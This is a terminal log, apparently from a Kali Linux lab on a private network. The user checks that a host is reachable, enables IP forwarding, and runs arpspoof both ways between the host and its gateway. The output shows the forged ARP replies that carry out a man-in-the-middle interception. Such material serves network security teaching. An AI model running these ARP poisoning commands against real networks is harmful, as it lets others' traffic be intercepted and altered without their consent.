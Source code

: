 sudo arping 10.2.1.117
[sudo] password for byby: 
ARPING 10.2.1.117
60 bytes from 00:50:79:66:68:00 (10.2.1.117): index=0 time=3.982 msec
60 bytes from 00:50:79:66:68:00 (10.2.1.117): index=1 time=4.028 msec
60 bytes from 00:50:79:66:68:00 (10.2.1.117): index=2 time=4.294 msec
60 bytes from 00:50:79:66:68:00 (10.2.1.117): index=3 time=4.433 msec
60 bytes from 00:50:79:66:68:00 (10.2.1.117): index=4 time=4.043 msec
60 bytes from 00:50:79:66:68:00 (10.2.1.117): index=5 time=6.012 msec
^C
--- 10.2.1.117 statistics ---
3 packets transmitted, 6 packets received,   0% unanswered (3 extra)
rtt min/avg/max/std-dev = 3.982/4.465/6.012/0.710 ms




┌──(byby㉿byby)-[~]
└─$ ping 10.2.1.117 
PING 10.2.1.117 (10.2.1.117) 56(84) bytes of data.
64 bytes from 10.2.1.117: icmp_seq=1 ttl=64 time=8.19 ms
64 bytes from 10.2.1.117: icmp_seq=2 ttl=64 time=4.01 ms
64 bytes from 10.2.1.117: icmp_seq=3 ttl=64 time=4.23 ms
^C
--- 10.2.1.117 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 4.007/5.475/8.190/1.921 ms


(root㉿byby)-[/home/byby]
└─# echo 1 > /proc/sys/net/ipv4/ip_forward

                                                                             
┌──(root㉿byby)-[/home/byby]
└─# arpspoof -i eth0 -t 10.2.1.117 10.2.1.254

8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:79:12:61
^CCleaning up and re-arping targets...
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:24:18:c4
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:24:18:c4
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:24:18:c4
8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:24:18:c4
^C8:0:27:79:12:61 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:24:18:c4


(root㉿byby)-[/home/byby]
└─# arpspoof -i eth0 -t 10.2.1.254 10.2.1.117
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 8:0:27:79:12:61
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 0:50:79:66:68:0
8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 0:50:79:66:68:0
^C8:0:27:79:12:61 8:0:27:24:18:c4 0806 42: arp reply 10.2.1.117 is-at 0:50:79:66:68:0
